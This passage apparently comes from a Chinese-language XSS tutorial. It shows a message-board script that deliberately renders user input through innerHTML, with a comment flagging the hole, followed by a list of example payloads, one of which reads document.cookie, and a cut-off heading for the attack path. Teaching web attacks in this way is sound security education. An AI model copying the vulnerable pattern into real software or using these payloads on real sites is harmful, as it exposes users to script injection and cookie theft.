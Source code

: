 ```javascript
document.getElementById('messageForm').addEventListener('submit', function (e) {
	e.preventDefault()
	const messageContent = document.getElementById('messageInput').value
	fetch('/xss/api/messages', {
		method: 'POST',
		headers: {
			'Content-Type': 'application/json',
		},
		body: JSON.stringify({ message: messageContent }),
	})
		.then(response => response.json())
		.then(data => {
			fetchMessages() // 重新加载留言
		})
		.catch(error => console.error('Error:', error))
})

function fetchMessages() {
	fetch('/xss/api/messages')
		.then(response => response.json())
		.then(messages => {
			const messagesList = document.getElementById('messagesList')
			messagesList.innerHTML = '' // 清空列表
			messages.forEach(message => {
				const li = document.createElement('li')
				li.innerHTML = message // 这里存在XSS漏洞
				messagesList.appendChild(li)
			})
		})
		.catch(error => console.error('Error:', error))
}

fetchMessages() // 页面加载时获取留言
```

**攻击示例：**

```
<img src='invalid-image' onerror='alert(document.cookie);'/>
<img src="https://picx.zhimg.com/v2-c198652e6abd6cd1e6d0e0f83d722c94_720w.jpg?source=172ae18b" onload="alert('XSS');" />
<a href="javascript:alert('XSS');">Click me!</a>
<iframe src="javascript:alert('XSS');"></iframe>
<button type="button" onclick="javascript:alert('XSS');">Click Me!</button>
<script>alert('XSS');</script>
```

**攻击路径：**
